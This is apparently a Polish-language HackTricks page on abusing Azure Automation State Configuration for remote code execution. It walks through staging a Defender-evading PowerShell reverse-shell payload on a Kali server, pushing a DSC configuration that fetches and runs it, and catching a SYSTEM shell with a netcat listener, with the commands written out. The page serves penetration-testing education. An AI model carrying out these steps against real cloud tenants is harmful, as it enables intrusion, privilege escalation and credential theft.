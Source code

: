 # Az - State Configuration RCE

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

**Sprawdź pełny post na: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Podsumowanie przygotowania infrastruktury zdalnego serwera (C2) i kroki

#### Przegląd
Proces polega na skonfigurowaniu infrastruktury zdalnego serwera do hostowania zmodyfikowanego ładunku Nishang `Invoke-PowerShellTcp.ps1`, o nazwie `RevPS.ps1`, zaprojektowanego do omijania Windows Defendera. Ładunek jest serwowany z maszyny Kali Linux o adresie IP `40.84.7.74` za pomocą prostego serwera HTTP w Pythonie. Operacja jest wykonywana w kilku krokach:

#### Krok 1 — Utwórz pliki
- **Wymagane pliki:** Potrzebne są dwa skrypty PowerShell:
1. `reverse_shell_config.ps1`: Plik konfiguracji stanu pożądanego (DSC), który pobiera i wykonuje ładunek. Można go pobrać z [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Skrypt do publikowania konfiguracji na maszynie wirtualnej, dostępny na [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Dostosowanie:** Zmienne i parametry w tych plikach muszą być dostosowane do konkretnego środowiska użytkownika, w tym nazw zasobów, ścieżek plików oraz identyfikatorów serwera/ładunku.

#### Krok 2 — Skompresuj plik konfiguracji
- Plik `reverse_shell_config.ps1` jest kompresowany do pliku `.zip`, co przygotowuje go do transferu do konta Azure Storage.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Krok 3 — Ustawienie kontekstu magazynu i przesłanie pliku
- Skompresowany plik konfiguracyjny jest przesyłany do wcześniej zdefiniowanego kontenera Azure Storage, azure-pentest, za pomocą polecenia Set-AzStorageBlobContent w Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Krok 4 — Przygotowanie maszyny Kali
- Serwer Kali pobiera ładunek RevPS.ps1 z repozytorium GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Skrypt jest edytowany w celu określenia docelowej maszyny wirtualnej Windows oraz portu dla odwróconego powłokowego połączenia.

#### Krok 5 — Opublikuj plik konfiguracyjny
- Wykonuje się plik konfiguracyjny, co skutkuje wdrożeniem skryptu odwróconej powłoki w określonym miejscu na maszynie wirtualnej Windows.

#### Krok 6 — Hostuj ładunek i skonfiguruj nasłuchiwanie
- Uruchamiany jest serwer Python SimpleHTTPServer do hostowania ładunku, wraz z nasłuchiwaczem Netcat do przechwytywania przychodzących połączeń.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Zaplanowane zadanie wykonuje ładunek, osiągając uprawnienia na poziomie SYSTEMU.

#### Wniosek

Pomyślne wykonanie tego procesu otwiera liczne możliwości dalszych działań, takich jak wykradanie poświadczeń lub rozszerzenie ataku na wiele maszyn wirtualnych. Przewodnik zachęca do dalszego nauki i kreatywności w dziedzinie Azure Automation DSC.

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCYJNY**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
